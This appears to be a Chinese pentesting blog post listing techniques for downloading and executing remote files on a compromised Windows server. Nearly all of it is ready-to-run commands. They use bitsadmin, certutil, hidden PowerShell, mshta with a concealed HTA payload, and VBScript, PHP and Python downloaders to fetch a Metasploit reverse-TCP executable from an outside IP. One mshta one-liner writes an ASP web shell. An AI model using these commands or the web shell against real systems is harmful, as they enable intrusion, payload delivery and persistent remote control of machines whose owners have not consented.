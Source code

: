 ```yaml
---
title: Windows 终端下载文件和执行远程文件
description: 在 windows 的终端下下载文件，在 windows 的终端下执行远程文件
categories:
  - Pentest
tags:
  - intranet
date: 2018-02-06 15:12:32
draft: false
---
```


环境：Windows Server 2008 R2 Enterprise

### 0x00 bitsadmin下载文件
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload http://114.115.123.123/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
```

### 0x01 certutil下载文件
保存在当前目录
```bash
certutil -urlcache -split -f http://114.115.123.123/a.exe a.exe
```

有时会下载二进制文件的base64编码后的字符串，然后再解码
```
本地：certutil -encode cc.exe base64.txt
目标：certutil -urlcache -split -f http://114.115.123.123/base64.txt
目标：certutil -decode base64.txt cc.exe
```

文件会以二进制形式缓存到目录：C:\Users\Administrator\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```bash
certutil -urlcache -f http://114.115.123.123/a.exe
```

### 0x02 powershell下载文件
有的时候PowerShell的执行权限会被关闭，需要使用如下的语句打开。

C:\>powershell set-executionpolicy unrestricted

```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")
```

### 0x03 mshta下载文件与执行远程文件
使用mshta命令的文件都会被缓存到：C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files

* 执行远程hta文件

```bash
mshta http://114.115.123.123/payload.hta
mshta http://114.115.123.123/a.exe
#payload.hta和a.exe都会被缓存在IE的缓存目录
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

* 写文件的方法

```
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("a.asp",2,ture).writeline("<%execute(request('l'))%>")(window.close)
```

### 0x04 Visual Basic
```
Set args = Wscript.Arguments
Url = "http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe"
dim xHttp: Set xHttp = createobject("Msxml2.ServerXMLHTTP.3.0")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Windows\Temp\aa.exe", 2 '
end with
```
C:\Users\Administrator\Desktop> cscript test.vbs

### 0x05 利用脚本语言
* PHP

```
#!/usr/bin/php
<?php
    $data = file_get_contents("http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe");
    file_put_contents('C:\\Windows\\Temp\\aa.exe',$data);
?>
```
C:\Users\Administrator\Desktop> php aa.php

* Python

```
import urllib2;u = urllib2.urlopen('http://114.115.123.123/wyb/msf_reverse_tcp_x86.exe');f = open('C:\\Windows\\Temp\\aa.exe', 'w');f.write(u.read());f.close();
```
C:\Users\Administrator\Desktop> python aa.py

### 0x06 FTP
远程连接自己的ftp服务器，然后下载文件



#### Reference(侵删)：
* [https://xianzhi.aliyun.com/forum/topic/1654](https://xianzhi.aliyun.com/forum/topic/1654?_blank)
* [https://evi1cg.me/archives/Tricks.html](https://evi1cg.me/archives/Tricks.html?_blank)
* [https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/](https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/?_blank)
* [http://www.secange.com/2017/08/收集整理的16种文件下载的方式/](http://www.secange.com/2017/08/收集整理的16种文件下载的方式/?_blank)

